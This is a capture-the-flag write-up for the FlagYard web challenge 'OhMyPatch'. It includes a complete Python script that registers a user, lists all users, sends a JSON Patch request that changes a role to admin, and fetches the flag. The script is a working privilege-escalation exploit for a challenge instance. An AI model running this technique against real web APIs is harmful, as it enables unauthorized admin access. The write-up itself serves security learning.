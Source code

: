 # OhMyPatch

**Challenge Name**: OhMyPatch  
**Category**: Web  
**Points**: 120  
**Platform**: FlagYard

## Challenge Overview:
In this challenge, the goal is to exploit a web application by escalating privileges and retrieving a flag by JSON Patch exploit. The challenge involves a series of steps including user registration, API manipulation, and a privilege escalation exploit.

### Steps Involved:

1. **User Registration**:
   - Register a new user using the `/register` endpoint.
   - A token is retrieved from the response, which is used for authentication in later steps.

2. **Fetching All Users**:
   - Fetch all users from the `/users` endpoint.
   - Find the specific user by their name (e.g., "JohnDoe") and retrieve their user ID.

3. **Privilege Escalation**:
   - Perform a privilege escalation by modifying the role of a user to "admin" using a `PATCH` request.

4. **Retrieving the Flag**:
   - After escalating privileges, access the `/flag` endpoint to retrieve the flag.

### Key Endpoints:
- `POST /register`: Register a new user.
- `GET /users`: Fetch the list of all users.
- `PATCH /patch`: Modify a user's role to admin.
- `GET /flag`: Retrieve the flag after escalating privileges.

### Techniques Used:
- **JSON Web Token (JWT)**: Used for authentication.
- **Privilege Escalation**: Role modification exploit.
- **API Manipulation**: Exploit of web API endpoints, particularly the `PATCH` method.

### Tools & Libraries:
- **Python**: Script is written in Python.
- **Requests Library**: Used to handle HTTP requests.
- **JSON Patch**: Used to modify the role of users.

## Code
**Here it is an automated script that do all the work for you by me :)**
```python
import requests
import json
import sys

# Base URL
# Change this to the target URL
base_url = "http://instace-target.com"

# User Information
username_to_register = "newuser"
name_to_find = "JohnDoe"  # Change this to the desired user name

# Step 1: User Registration
register_url = f"{base_url}/register"
user_data = {
    "name": name_to_find,  # Use the name to find id
    "username": username_to_register,
    "password": "securepassword",
    "age": 25,
    "department": "IT"
}

print("[+] Registering user...")
register_response = requests.post(register_url, headers={
                                  "Content-Type": "application/json"}, data=json.dumps(user_data))

if register_response.status_code == 200:
    print("[+] User registered successfully.")
    response_json = register_response.json()
    # Fetch token from the correct key
    token = response_json.get("access_token")
    if token:
        print(f"[+] Token retrieved: {token}")
    else:
        print("[-] Token not found in the registration response.")
        print("Response:", response_json)
        sys.exit(1)
else:
    print(f"[-] Failed to register user. Status Code: {
          register_response.status_code}, Response: {register_response.text}")
    sys.exit(1)

# Step 2: Fetch all users to get user ID
users_url = f"{base_url}/users"  # Use the base URL
print("[+] Fetching all users...")

# Verify that the token is valid before using it
if len(token.split(".")) != 3:
    print(f"[-] Invalid JWT token format: {token}")
    sys.exit(1)

users_response = requests.get(
    users_url, headers={"Authorization": f"Bearer {token}"})

if users_response.status_code == 200:
    users_data = users_response.json()
    print(f"[+] Users fetched successfully: {users_data}")
else:
    print(f"[-] Failed to fetch users. Status Code: {
          users_response.status_code}, Response: {users_response.text}")
    sys.exit(1)

# Find our user by the "name" field
user_id = None
for user in users_data['users']:
    if user['name'] == name_to_find:
        user_id = user['id']
        break

if user_id is None:
    print(f"[-] Failed to find the user '{name_to_find}' in the users list.")
    sys.exit(1)
else:
    print(f"[+] Found user ID: {user_id}")

# Step 3: Privilege Escalation (Patch the found user ID to Admin)
patch_url = f"{base_url}/patch"  # Use the base URL
patch_data = [
    {
        "op": "replace",
        "path": f"/users/{user_id - 1}/role",
        "value": "admin"
    }
]

print(f"[+] Escalating privileges for user ID {user_id - 1} to admin...")
patch_response = requests.patch(patch_url, headers={
    "Content-Type": "application/json",
    "Authorization": f"Bearer {token}"
}, data=json.dumps(patch_data))

if patch_response.status_code == 200:
    print(f"[+] Privilege escalation successful: {patch_response.text}")
else:
    print(f"[-] Failed to escalate privileges. Status Code: {
          patch_response.status_code}, Response: {patch_response.text}")
    sys.exit(1)

# Step 4: Retrieve Flag
flag_url = f"{base_url}/flag"  # Use the base URL

print("[+] Attempting to retrieve flag...")
flag_response = requests.get(flag_url, headers={
    "Authorization": f"Bearer {token}",
    "Content-Type": "application/json"
})

if flag_response.status_code == 200:
    print(f"[+] Flag retrieved: {flag_response.text}")
else:
    print(f"[-] Failed to retrieve flag. Status Code: {
          flag_response.status_code}, Response: {flag_response.text}")
    sys.exit(1)
```

### Conclusion:
By leveraging API manipulation and privilege escalation, this challenge allows the retrieval of a flag to complete the CTF. Understanding how to exploit user role modifications in web applications is crucial to succeeding in this challenge.
